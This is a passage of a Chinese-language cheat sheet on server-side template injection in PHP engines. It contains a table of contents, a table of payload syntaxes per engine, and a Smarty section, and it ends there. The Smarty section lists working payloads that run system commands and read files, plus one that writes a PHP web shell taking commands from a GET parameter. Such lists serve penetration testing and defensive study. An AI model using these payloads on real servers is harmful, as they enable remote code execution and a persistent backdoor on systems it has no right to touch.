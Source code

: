 # 服务器端模板注入 - PHP

> 服务器端模板注入（SSTI）是一种漏洞，当攻击者能够将恶意输入嵌入到服务器端模板中时，模板引擎会在服务器上执行任意命令。在PHP中，SSTI可能发生在使用像Smarty、Twig甚至普通PHP模板的模板引擎中，而没有进行适当的清理或验证时。

## 概述

- [模板库](#模板库)
- [Smarty](#smarty)
- [Twig](#twig)
    - [Twig - 基本注入](#twig---基本注入)
    - [Twig - 模板格式](#twig---模板格式)
    - [Twig - 随意读取文件](#twig---随意读取文件)
    - [Twig - 代码执行](#twig---代码执行)
- [Latte](#latte)
    - [Latte - 基本注入](#latte---基本注入)
    - [Latte - 代码执行](#latte---代码执行)
- [patTemplate](#pattemplate)
- [PHPlib 和 HTML_Template_PHPLIB](#phplib-and-html_template_phplib)
- [Plates](#plates)
- [参考文献](#参考文献)

## 模板库

| 模板名称   | 负载格式       |
| ---------- | -------------- |
| Laravel Blade | `{{ }}`      |
| Latte        | `{var $X=""}{$X}` |
| Mustache     | `{{ }}`      |
| Plates       | `<?= ?>`     |
| Smarty       | `{ }`        |
| Twig         | `{{ }}`      |

## Smarty

[官方网站](https://www.smarty.net/docs/en/)

> Smarty 是一个用于PHP的模板引擎。

```python
{$smarty.version}
{php}echo `id`;{/php} // 在Smarty v3中已弃用
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // 兼容v3
{system('cat index.php')} // 兼容v3
```

---